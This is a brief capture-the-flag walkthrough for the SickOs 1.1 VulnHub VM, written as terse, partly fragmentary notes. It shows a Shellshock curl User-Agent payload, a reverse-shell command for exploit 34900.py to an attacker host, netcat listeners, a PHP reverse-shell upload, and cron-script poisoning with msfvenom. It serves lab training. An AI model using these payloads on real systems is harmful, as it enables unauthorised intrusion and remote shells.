 ## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```

## Solution

To find IP address of VM:

#### Sudo Netdiscover

![](Assets/1.png)

> IP address: 192.168.1.11

#### Port scan
![](Assets/2.png)

> Squid HTTP Proxy is running on port 3128 > Firefox Web proxy 192.168.1.11:3128 > Squid web server
 
#### Nikto 
Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128
![](Assets/3.png)

> /cgi-bin/status > vulnerable to ShellShock

#### Burp proxy 192.168.1.11 : 3128  >>>> 192.168.1.11/robots.txt

Admin:admin

Added ip and port to php Reverse shell

Uploaded php reverse shell

Nc -nvlp 1234 & visited url of shell >> got shell

Visited var/www


Method 1: Using connect.py

Rw permissions for connect.py. Visit cron.d

Create payload with msfvenum 

Echo payload to connect.py

Nc -nvlp 7777


Method 2: using config.php

config.php



Method 3: Get a shell using shellshock

curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"

Download 34900.py

Reverse shell: python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status


config.php

sudo


